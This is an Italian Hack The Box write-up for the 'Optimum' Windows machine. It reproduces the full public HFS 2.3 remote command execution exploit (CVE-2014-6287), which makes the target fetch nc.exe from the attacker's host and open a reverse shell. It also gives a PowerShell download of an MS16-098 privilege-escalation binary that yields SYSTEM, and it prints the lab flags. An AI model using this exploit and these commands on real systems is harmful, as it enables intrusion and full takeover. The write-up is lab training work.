

**Author: Noto La Diega Alessandro** 

**Target:10.10.10.8**

# INFORMATION GATHERING

Prima di tutto lanciamo un scan veloce con [[Nmap]] per capire cosa abbiamo di fronte

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nmap -sC -sV -O  10.10.10.8
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-12 09:19 EDT
Nmap scan report for 10.10.10.8
Host is up (0.041s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2012|2008|7|Vista (91%)
OS CPE: cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows 7 Professional or Windows 8 (85%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%), Microsoft Windows 7 Professional (85%), Microsoft Windows Vista SP2 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.24 seconds
```

Uno scan su tutte le porte non ci da ulteriori porte aperte

# ENUMERATION

Abbiamo solo una porta aperta 

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
```

Dando un occhiata alla pagina web sembrerebbe che sia un file manager, 



Dallo scan nmap sappiamo 
la versione di è `HttpFileServer 2.3` cerchiamo qualche vulnerabilità con google

i primi due risultati ci portano a questa vulnerabilità,

Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)
https://www.exploit-db.com/exploits/39161:
Copiamo il codice e diamogli un occhiata.

```bash
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
# Google Dork: intext:"httpfileserver 2.3"
# Date: 04-01-2016
# Remote: Yes
# Exploit Author: Avinash Kumar Thapa aka "-Acid"
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!


import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "192.168.44.128" #local IP address
	local_port = "443" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
	
            
```

# GAINING AN INITIAL FOOTHOLD

Proof of concept:

Idea di base è quella di fare eseguire alla macchina 
target una richiesta http ad un ip stabilito per scaricare un nc ed una volta scaricato
farà una chiamata ad nostro nostra porta in ascolto...

modifichiamo il codice con in nostro ip e la porta a cui vogliamo che nc ci raggiunga

	ip_addr = "10.10.14.53" #local IP address
	local_port = "6969" # Local Port number

Kali ha una versione di nc per windows la troviamo e la copiamo nel directory

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# locate nc.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe

┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# cp /usr/share/windows-resources/binaries/nc.exe .
```

Seguendo le istruzione del exploit tiriamo su un server per consentire a nc di essere scaricato

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# python -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
```

in un altra finestra ci mettiamo in ascolto con nc 

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 6969
listening on [any] 6969 ...
```

Siamo pronti per lanciare l'exploit
> *dal codice capito che dobbiamo usare python2 per via delle libreira "urllib2")*

```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# python2 39161.py 10.10.10.8 80
```
 
Otteniamo cosi una shell
```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 6969
listening on [any] 6969 ...
connect to [10.10.14.53] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

Abbimao la nostra flag users

C:\Users\kostas\Desktop>type user.txt
type user.txt
a1e587df49c11191ac205e30bd5036a9

# PRIVESC

Utilizzeremo Windows Exploit Suggester per identificare eventuali patch mancanti sul computer
che potrebbero potenzialmente consentirci di aumentare i privilegi.

Scarichiamo lo script:
```bash
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

Installiamo le dipendenze
>*per le dipendenze https://github.com/AonCyberLabs/Windows-Exploit-Suggester/issues/43*

```
python2 -m pip istall -user xlrd==1.1.0
```
Creaimo il datebase
```bash
python2 windows-exploit-suggester.py --update
```

Dopo di che sulla macchina target lasciamo syisteminfo e ci salviamo l'output nel file sysinfo.txt
```cmd
ost Name:                 OPTIMUM                                                                                  
OS Name:                   Microsoft Windows Server 2012 R2 Standard                                                
OS Version:                6.3.9600 N/A Build 9600                                                                  
OS Manufacturer:           Microsoft Corporation                                                                    
OS Configuration:          Standalone Server                                                                        
OS Build Type:             Multiprocessor Free                                                                      
Registered Owner:          Windows User                                                                             
Registered Organization:                                                                                            
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 
System Boot Time:          21/5/2023, 7:01:09 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.518 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.713 MB
Virtual Memory: In Use:    790 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
                           [17]: KB2967917
                           [18]: KB2971203
                           [19]: KB2971850
                           [20]: KB2973351
                           [21]: KB2973448
                           [22]: KB2975061
                           [23]: KB2976627
                           [24]: KB2977629
                           [25]: KB2981580
                           [26]: KB2987107
                           [27]: KB2989647
                           [28]: KB2998527
                           [29]: KB3000850
                           [30]: KB3003057
                           [31]: KB3014442
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) 82574L Gigabit Network Connection
                                 Connection Name: Ethernet0
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.8
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

C:\Users\kostas\Desktop>  
```

A questo punto lanciamo lo script
```bash
┌──(venv)─(root㉿kali)-[/home/kali/htb/optimun/Windows-Exploit-Suggester]
└─# python2 windows-exploit-suggester.py --database 2023-05-14-mssb.xls --systeminfo sysinfo.txt                    
[*] initiating winsploit version 3.3...                                                                             
[*] database file detected as xls or xlsx based on extension                                                        
[*] attempting to read from the systeminfo input file                                                               
[+] systeminfo input file read successfully (ascii)                                                                 
[*] querying database file for potential vulnerabilities                                                            
[*] comparing the 31 hotfix(es) against the 266 potential bulletins(s) with a database of 137 known exploits        
[*] there are now 246 remaining vulns                                                                               
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin                                                  
[+] windows version identified as 'Windows 2012 R2 64-bit'                                                          
[*]                                                                                                                 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important                                 
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)  
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Pri
vilege Escalation (MS16-135) (2)                                                                                    
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255                                                   
[*]                                                                                                                 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important                                 
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
```

Notiamo una vulnerabiltà impoartante la MS16-098
https://www.exploit-db.com/exploits/41020

Scarichimo l'eseguibie all'indiizzo:
https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/41020.exe

A questo punto tiruamo su un server per poter accere al file.exe dalla macchina target
```
┌──(venv)─(root㉿kali)-[/home/kali/htb/optimun/Windows-Exploit-Suggester]
└─# python -m http.server 9001
Serving HTTP on 0.0.0.0 port 9001 (http://0.0.0.0:9001/) ...
```

Dalla macchina target scarichiamo il file.exe con il seguente comando 
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.53:9001/41020.exe', 'c:\Users\Public\Downloads\41020.exe')"
```

Non ci reste che eseguire lo scipt

```cmd
C:\Users\Public\Downloads>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\Public\Downloads>whoami
whoami
nt authority\system
```

Prendiamo la flag
```cmd
C:\Users\Administrator\Desktop>type root.txt
type root.txt
56208cfd88ec0236ea7f4cb5d5a8ef02
```

# LESSION LERNED

Aggiorna e correggi sempre il tuo software! Per ottenere sia un punto d'appoggio iniziale che aumentare i privilegi,
abbiamo sfruttato le vulnerabilità divulgate pubblicamente che dispongono di aggiornamenti 
e patch di sicurezza disponibili.


## [[Ambiente virtuale]]

Creare ambiente virutale all'interno di kali per scaricare dipendenze
• python3 -m venv venv 

Attivare l'ambiente
• source venv/bin/activate

Ora al suo interno possiamo scaricare quello che vogliamo senza compromettere la macchina virtuale

Per uscire dall'ambiente virutale 
• deactivate


